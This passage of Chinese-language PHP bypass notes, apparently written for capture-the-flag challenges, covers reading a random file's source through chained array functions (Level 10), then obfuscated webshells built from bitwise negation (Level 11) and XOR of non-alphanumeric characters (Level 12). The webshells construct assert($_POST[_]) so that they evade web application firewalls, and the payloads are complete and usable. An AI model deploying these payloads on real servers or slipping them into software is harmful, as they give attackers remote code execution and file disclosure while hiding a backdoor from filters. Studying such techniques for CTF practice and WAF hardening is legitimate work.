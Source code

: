         * `current()` / `pos()`: 获取当前（第一个）元素。
        * `next()` / `prev()` / `end()` / `reset()`: 导航数组指针。
        * `array_flip()`: 交换键和值。
        * `array_rand()`: 从数组中获取一个随机键。
        * `array_slice()`: 提取数组的一个切片。
    4.  **文件读取/显示:** 使用接收文件名（通过步骤 2 & 3 获取）并显示其内容的函数。
        * `show_source()` / `highlight_file()`: 显示带有语法高亮的源代码。
        * `readfile()`: 输出文件内容。
        * `file_get_contents()`: 将整个文件读入字符串（需要 `print` 或 `echo` 来显示）。
        * `readgzfile()`: 有时也可以读取非 gzip 格式的文件。

* **示例 (显示当前目录下随机文件的源代码):**
    ```php
    // 1. localeconv() -> [decimal_point => '.', ...]
    // 2. current() -> '.' (当前目录)
    // 3. scandir('.') -> ['.', '..', 'index.php', 'flag.php', ...]
    // 4. array_flip() -> [ '.'=>0, '..'=>1, 'index.php'=>2, 'flag.php'=>3, ...]
    // 5. array_rand() -> 'flag.php' (返回一个随机 *键*)
    // 6. show_source('flag.php') -> 显示文件内容
    show_source(array_rand(array_flip(scandir(current(localeconv())))));
    ```

---

## Level 11 - 按位取反 (~) 绕过 (PHP)

* **概念:** 使用按位取反运算符 (`~`) 来从字符构造字符串，而不直接使用字母数字字符。这通常涉及对已知字符串（如 `_GET`, `Array` 或特定的 UTF-8 字符）应用 `~` 并连接结果。
* **机制:** 按位取反会翻转字符的 ASCII/UTF-8 表示的所有位。通过对精心选择的字符或字符串进行取反，可以获得构建函数名和命令所需的其他字符。这很复杂，通常需要反复试验或辅助脚本。
* **工具:** 用户提到了一个位于 `https://probiusofficial.github.io/PHP-inversion/` 的脚本/工具，它可能可以自动生成此类 payload。（注意：使用外部工具/脚本时务必谨慎）。
* **示例代码片段结构:** (概念性的，实际字符取决于目标字符串)
    ```php
    <?php
    // 示例结构，使用对 UTF-8 字符的按位取反
    // 目标: 构造 'assert' 和 '_POST'
    $____ = (~'瞰') . (~'和') . (~'和') . (~'的') . (~'半') . (~'始'); // 构造 'assert'
    $_____='_';
    $_____.= (~'俯') . (~'瞰') . (~'次') . (~'站'); // 构造 'POST', 追加到 '_'
    $_=$$_____; // $_ = $_POST ('$$_____' 解析变量名 '_POST')
    $____($_[_]); // assert($_POST[_])
    ?>
    ```

---

## Level 12 - 非字母数字代码执行 (PHP)

完全避免使用字母，仅使用符号和可能的数字来编写 PHP 代码的技术。对于绕过极端的 WAF 很有用。

1.  **XOR 绕过:**
    * 在字符串或字符（通常是通过 URL 编码表示的单字节字符串，如 `%01`）之间使用 XOR 运算符 (`^`) 来生成所需的字符。
    ```php
    <?php
    // 目标: assert($_POST[_]);
    $_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_ = "assert"
    $__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__ = "_POST"
    $___=$$__; // $___ = $_POST (可变变量)
    $_($___[_]); // assert($_POST[_]);
    ?>
    ```
